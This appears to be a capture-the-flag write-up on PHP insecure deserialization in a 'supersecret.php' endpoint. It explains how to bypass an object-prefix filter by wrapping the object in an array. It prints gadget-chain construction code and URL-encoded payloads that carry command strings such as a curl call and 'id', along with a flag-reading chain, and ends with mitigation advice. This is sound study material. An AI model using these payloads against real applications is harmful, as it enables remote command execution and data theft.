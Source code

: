 During reckon **/robots.txt** was found with **/supersecret.php** endpoint  

```
$deser=$_GET['deser'];
if($deser){
  if(substr($deser, 0,1)=="O"){
    die('objects prohinited!');
  }else{
    var_dump(unserialize($deser));
  }
}else{
  highlight_file(__FILE__);
}
```

By passing seriliazed object through deser parameter it is possible to make gadget chain .  

**Example of serialized object**   
> O:8:"Sys__MGR":2:{s:3:"cmd";s:27:"curl http://127.0.0.1:1001/";s:7:"message";s:5:"hello";}  
But since our string can't start with O, we can't insert it directly, but this can easily be done by wrapping it in array.
**PoC:**  
**To exploit Sys_MGR()**
Correct constructed payload was achieved by following PHP object chain:
```
$sys = new Sys__MGR();
$ref = new refClass($sys);
$prop = $ref->getProperty('cmd');
$prop->setAccessible(true);
$prop->setValue($sys, 'id');

$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger); 

echo urlencode(serialize($payload));
```
**As output we got**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22Logger__MGR%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A8%3A%22Sys__MGR%22%3A2%3A%7Bs%3A13%3A%22%00Sys__MGR%00cmd%22%3Bs%3A27%3A%22curl+http%3A%2F%2F127.0.0.1%3A1001%2F%22%3Bs%3A7%3A%22message%22%3BN%3B%7D%7D%7D
![Sys_MGR](../images/sys.jpg)

Unfortunately, we were unable to obtain RCE because in 7.0-8.0 versions of PHP __wakeup() calls every time deserialization, and immideatly throws **Exception**. However even though __wakeup() threw an exception, we observed that echo 'hellow' (from close()) still appeared in the output — suggesting that Logger__MGR::__destruct() was triggered, and it attempted to call $logger->close().  

Since Sys__MGR::__wakeup() failed, the object was likely partially constructed, but enough to trigger close() — and echo 'hellow' worked, even though system($cmd) never ran.  
**To exploit Session__MGR()**
But we have second class with some flag (I guess CTF task).  
Same logic goes here, but instead of creating Sys__MGR object we create Session_MGR object  
```
$sys = new Session__MGR();


$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger);

echo urlencode(serialize($payload));
```
**Final payload: **
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A"Logger__MGR"%3A1%3A%7Bs%3A6%3A"logger"%3BO%3A12%3A"Session__MGR"%3A1%3A%7Bs%3A17%3A"%00Session__MGR%00key"%3Bs%3A4%3A"flag"%3B%7D%7D%7D  

![Logger](../images/logger.jpg)

**Mitigation**  
In order to avoid such vulnerabilities, **never unserialize user input** or use of **allowed_classes**  
 

